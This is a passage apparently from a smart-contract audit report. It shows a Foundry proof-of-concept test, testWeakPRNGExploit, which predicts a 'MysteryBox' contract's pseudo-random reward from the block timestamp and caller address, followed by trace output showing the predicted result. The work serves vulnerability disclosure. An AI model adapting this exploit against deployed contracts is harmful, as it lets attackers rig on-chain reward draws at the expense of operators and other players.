 ```javascript
        mysteryBox.buyBox{value: 0.1 ether}();

        // Warp the blockchain to the fuzzed timestamp
        vm.warp(fuzzedTimestamp);

        // Predict the random value based on fuzzed timestamp and attacker address
        uint256 randomValue = uint256(keccak256(abi.encodePacked(fuzzedTimestamp, attacker))) % 100;
        console.log("Fuzzed Timestamp:", fuzzedTimestamp);
        console.log("Expected random value:", randomValue);

        // Open the box and capture the reward
        mysteryBox.openBox();

        // Get the reward and determine the expected reward based on the random value
        MysteryBox.Reward[] memory rewards = mysteryBox.getRewards();
        require(rewards.length > 0, "No rewards received");

        string memory expectedReward;
        if (randomValue < 75) {
            expectedReward = "Coal";
        } else if (randomValue < 95) {
            expectedReward = "Bronze Coin";
        } else if (randomValue < 99) {
            expectedReward = "Silver Coin";
        } else {
            expectedReward = "Gold Coin";
        }

        console.log("Received reward:", rewards[0].name);
        console.log("Expected reward:", expectedReward);

        require(
            keccak256(bytes(rewards[0].name)) == keccak256(bytes(expectedReward)),
            "Exploit failed: reward does not match expectation"
        );

        console.log("Exploit success: received the expected reward:", expectedReward);

        vm.stopPrank();
    }
}
```

#### Output

```javascript
[83327] MysteryBoxExploitTest::testWeakPRNGExploit(3968)
    ├─ [0] VM::deal(0x000000000000000000000000000000000000bEEF, 10000000000000000000 [1e19])
    │   └─ ← [Return]
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000bEEF)
    │   └─ ← [Return]
    ├─ [24580] MysteryBox::buyBox{value: 100000000000000000}()
    │   └─ ← [Stop]
    ├─ [0] VM::warp(3968)
    │   └─ ← [Return]
    ├─ [0] console::log("Fuzzed Timestamp:", 3968) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] console::log("Expected random value:", 24) [staticcall]
    │   └─ ← [Stop]
    ├─ [48154] MysteryBox::openBox()
    │   └─ ← [Stop]
    ├─ [2123] MysteryBox::getRewards() [staticcall]
    │   └─ ← [Return] [Reward({ name: "Coal", value: 0 })]
```